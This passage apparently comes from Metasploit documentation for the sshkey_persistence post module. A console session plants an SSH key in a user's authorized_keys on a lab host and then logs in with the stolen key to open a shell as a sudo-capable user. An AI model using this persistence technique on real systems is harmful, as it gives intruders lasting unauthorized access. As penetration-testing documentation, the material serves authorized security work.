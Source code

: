 Use the post module to write the ssh key

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence 
    msf post(sshkey_persistence) > set session 1
    session => 1
    msf post(sshkey_persistence) > set verbose true
    verbose => true
    msf post(sshkey_persistence) > set user tiki
    user => tiki
    msf post(sshkey_persistence) > set CreateSSHFolder true
    CreateSSHFolder => true
    msf post(sshkey_persistence) > exploit
    
    [*] Checking SSH Permissions
    [+] Pubkey set to yes
    [*] Authorized Keys File: .ssh/authorized_keys
    [*] Added User SSH Path: /home/tiki/.ssh
    [*] Attempting to create ssh folders that don't exist
    [+] Storing new private key as /root/.msf4/loot/20160619095250_default_192.168.2.190_id_rsa_425588.txt
    [*] Adding key to /home/tiki/.ssh/authorized_keys
    [*] Max line length is 65537
    [*] Writing 761 bytes in 1 chunks of 2886 bytes (octal-encoded), using printf
    [+] Key Added
    [!] No active DB -- Credential data will not be saved!
    [*] Post module execution completed

Verify our access works

    msf post(sshkey_persistence) > use auxiliary/scanner/ssh/ssh_login_pubkey 
    msf auxiliary(ssh_login_pubkey) > set rhosts 192.168.2.190
    rhosts => 192.168.2.190
    msf auxiliary(ssh_login_pubkey) > set key_path /root/.msf4/loot/
    key_path => /root/.msf4/loot/
    msf auxiliary(ssh_login_pubkey) > set username tiki
    username => tiki
    msf auxiliary(ssh_login_pubkey) > run
    
    [*] 192.168.2.190:22 SSH - Testing Cleartext Keys
    [*] SSH - Testing 2 keys from /root/.msf4/loot
    [+] SSH - Success: 'tiki:-----BEGIN RSA PRIVATE KEY-----
    ...snip...
    7m+il2AWyuPWOWEnpXRur3knruE2k97ObMH92FeI8SYaIThvqNUL
    -----END RSA PRIVATE KEY-----
    ' 'uid=1000(tiki) gid=1000(tiki) groups=1000(tiki),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare) Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 2 opened (192.168.2.229:42580 -> 192.168.2.190:22) at 2016-06-19 09:56:22 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

If you try to run for a user you don't have permissions for
